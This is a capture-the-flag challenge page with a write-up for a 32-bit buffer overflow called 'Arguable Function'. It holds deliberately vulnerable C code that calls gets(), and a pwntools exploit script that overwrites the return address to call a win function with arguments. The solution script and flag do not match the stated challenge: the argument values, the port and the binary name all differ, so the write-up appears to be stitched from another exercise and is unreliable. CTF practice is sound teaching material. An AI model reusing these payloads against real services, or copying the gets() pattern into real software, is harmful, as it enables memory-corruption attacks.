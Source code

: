 # Arguable Function

Difficulty Level: Medium
 
Hidden function again, this time with arguments! You can't get the flag now muahaahhahahaha
 
Connect via `nc challenge.ctf-fun.xyz 14009`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- No hints provided


## Deployment

```bash
cd service
sudo ./arguablefunction.sh &
```

## Solution
Looking at the source code, we see that there's a uncallable `win` function that requires the argument `0xCAFE` 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define FLAGSIZE 64

void win(unsigned int arg1){
	char flag[FLAGSIZE];

	if (arg1 == 0xCAFE) {
		FILE *f = fopen("flag.txt","r");
		if (f == NULL) {
			printf("Flag File is Missing.\n");
			exit(0);
		}

		fgets(flag,FLAGSIZE,f);
		printf(flag);
		}
	else {
		puts("Let this be known... as the time you almost win");
	}

	return;
}


void vulnerable() {
	char buf[100] = {0x00};
	
	gets(buf);
	puts("Try harder hehe");

	return;
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);
	puts("I have added an argument to my win function! You can never run this function now!");
	vulnerable();
	return 0;
}
```

When we call a function normally, it will push the arguments first then a return address is pushed. Similarly, to call a function with argument through buffer overflow we need to mimic a function.

![image1](../screenshots/arguablefunction/image1.png?raw=true "image 1")

```python
"""
This exercise is a build up from the previous exercise where you supply more arguments

for 32 bit programs, when you call a function, the arguments are pushed before calling the function.


| Function parameter 3	|
| Function parameter 2	|
| Function parameter 1	|
| Return Address 		|
| ebp					|

when we want to call a function with paramters we must simulate a normal function call by
adding a fake return address then adding the parameters.

"""

from pwn import *

def main():

	padding = b'A' * 76

	win = p32(0x080491c2)

	arg1 = p32(0xdeadbeef)

	arg2 = p32(0xcafebabe)

	payload = padding + win	+ b"AAAA" + arg1 + arg2

	#io = process('./doubletrouble')
	io = remote("challenge.ctf-fun.xyz", 14010)
	io.sendline(payload)

	io.interactive()

if __name__ == '__main__':
	main()
```

### Flag
19C4{D0ubl3_+h3_fun_4m_i_R1ghT}